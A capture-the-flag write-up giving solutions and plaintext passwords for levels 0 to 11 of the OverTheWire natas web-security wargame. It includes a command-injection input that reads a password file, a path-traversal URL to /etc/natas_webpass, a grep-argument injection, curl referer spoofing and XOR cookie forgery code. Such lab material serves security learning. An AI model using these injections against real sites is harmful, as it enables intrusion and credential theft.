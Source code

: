 # Natas
This repository holds my solutions to the wargame natas.

## Level 0
Looking in the source we can see the comment:
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Level 1
We can use the shortcut 'CTRL+U' to access the source and find the comment:
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2
Looking in the source we see that a picture called pixels is stored in the directory files. Going to http://natas2.natas.labs.overthewire.org/files/ we can see the file users.txt which holds the password.

Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## Level 3
Looking in the source we can see the comment: `<!-- No more information leaks!! Not even Google will find it this time... -->`. The only way google won't find it is if it's path was stored in the robots.txt file. Visiting it, then going to http://natas3.natas.labs.overthewire.org/s3cr3t/ results in the password.

Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4
We can use a curl command to change the http referer. Running `curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php` results in the password.

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5
Changing the cookie loggedin from 0 to 1 results in the password.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6
Looking at the php in the source after clicking the view source button we can see that the secret is stored in http://natas6.natas.labs.overthewire.org/includes/secret.inc. Visiting the url and submitting the secret results in the password.

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## Level 7
The site reads a file that we can control the name of. Looking in the source we can see that the password is stored in `/etc/natas_webpass/natas8`. Going to the url `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` results in the password.

Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Level 8
The secret has been base64 encoded, reversed, then encoded in hex. We can use the following line of python to decode it `import base64; base64.b64decode(bytearray.fromhex("3d3d516343746d4d6d6c315669563362").decode()[::-1])` and get the secret `oubWYf2kBq`. Submitting the secret we get the password.

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## Level 9
We can inject a linux command using `; COMMAND HERE ;`. Inputting `; cat /etc/natas_webpass/natas10;` results in the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## Level 10
We can use the regular expression `.*` to match anything. If we use it then add the name of the file containing the password, then comment the rest of the expression we get the password. We can use this command to do that: `.* /etc/natas_webpass/natas11 #`

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## Level 11
The first thing we have to do is create a script that XORs two strings.
```
def xor(str1, str2):
	assert(len(str1)==len(str2))
	return ''.join([chr(ord(str1[i])^ord(str2[i])) for i in range(len(str1))])
```
The json encoded data should look like this: `{"showpassword":"no","bgcolor":"#ffffff"}`. Due to the easy reversibility of XOR we can find the key by XORing the string above and the cookie. Running: `xor(base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=").decode(), "{\"showpassword\":\"no\",\"bgcolor\":\"#ffffff\"}")` gives us the key, `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`. 

Now we can XOR the json data we need to solve the challenge, `{"showpassword":"yes","bgcolor":"#ffffff"}`, with the key to get the cookie needed to get the password. We have to extend the key to make it equal in size to the json data.
```
>>> x = xor("qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw", "{\"showpassword\":\"yes\",\"bgcolor\":\"#ffffff\"}")
>>> base64.b64encode(bytes(x, 'utf-8'))
b'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```
Changing the cookie data to `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK` results in the password.

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12
